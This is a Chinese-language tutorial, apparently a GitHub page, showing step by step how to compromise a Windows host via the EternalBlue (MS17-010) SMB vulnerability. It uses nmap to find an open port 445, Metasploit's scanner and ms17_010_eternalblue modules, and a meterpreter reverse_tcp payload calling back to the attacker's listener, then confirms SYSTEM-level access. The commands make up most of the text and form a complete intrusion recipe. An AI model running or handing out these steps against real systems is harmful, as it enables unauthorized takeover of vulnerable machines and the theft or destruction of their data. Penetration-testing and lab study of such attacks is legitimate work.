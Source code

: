 # 关于kali利用永恒之蓝漏洞入侵windows主机

## 1. 探测目标主机系统及445端口是否开放

```
nmap -sV -T4 192.168.205.200
```

 下图可以看到windos已开启445端口

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/1.png)

 ## 2. 打开kali的渗透测试工具Metasploit

```
msfconsole　　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/2.png)

## 3. 搜索永恒之蓝漏洞名

```
search smb_ms17_010
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/3.png)

  使用此模块，并设置被攻击主机IP

```shell
use auxiliary /scanner/smb/smb_ms17_010 show options
# 设置被攻击的主机IP
set RHOSTS 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/4.png)

## 4. 运行看是否存在永恒之蓝漏洞(下图显示目标主机存在此漏洞)

```
run
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/5.png)

## 5. 使用攻击模块设置被攻击主机IP

```shell
use exploit /windows/smb/ms17_010_eternalblue 
set rhosts 192.168.205.200
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/6.png)

## 6. 设置攻击载荷（kali所在主机IP及监听端口

```shell
# 攻击载荷
set payload windows /x64/meterpreter/reverse_tcp
# 攻击机IP（kali主机）
set` `lhost 192.168.205.173
# 攻击机监听端口
set lport 6666 
# 查看设置的参数
show options
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/7.png)

## 7. 执行攻击命令（下图显示已经入侵到windows系统）

```
exploit
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/8.png)

可以使用？查看帮助命令

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/9.png)

```shell
sysinfo # 系统相关信息
getuid  # 查看当前用户身份权限，下图可以看到已取得了系统级别权限　
```

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/10.png)

## 8. 可以使用像linux一样的命令查看，切换目录，删除等操作

![img](https://longlizl.github.io/kali相关/永恒之蓝漏洞/images/11.png)

